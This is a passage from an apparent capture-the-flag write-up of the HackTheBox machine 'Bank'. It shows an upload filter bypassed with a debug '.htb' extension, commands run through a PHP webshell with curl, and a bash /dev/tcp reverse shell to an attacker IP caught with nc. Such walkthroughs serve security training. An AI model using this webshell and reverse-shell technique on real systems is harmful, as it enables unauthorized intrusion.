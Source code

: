 ![](/img/image-20200701075845918.png)

That's because the server is trying to process it as an image, and not
as PHP, so there's no execution.

### Finding an Extension

I tried a handful of [other
extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
that commonly will be executed as PHP, but all were blocked.

In looking the source for `support.php`, there's a comment:



    <!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] --



I changed the upload to `cmd.htb`, and it uploaded.

To test, I ran the `id` command, and it worked:



    root@kali# curl http://bank.htb/uploads/cmd.htb?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell

Now to get a shell, with `nc` listening on 443, I'll issue the following
command to the webshell:



    root@kali# curl http://bank.htb/uploads/cmd.htb --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.41/443 0>&1"'



The connection comes back with a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.29.
    Ncat: Connection from 10.10.10.29:53542.
    bash: cannot set terminal process group (1076): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bank:/var/www/bank/uploads$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

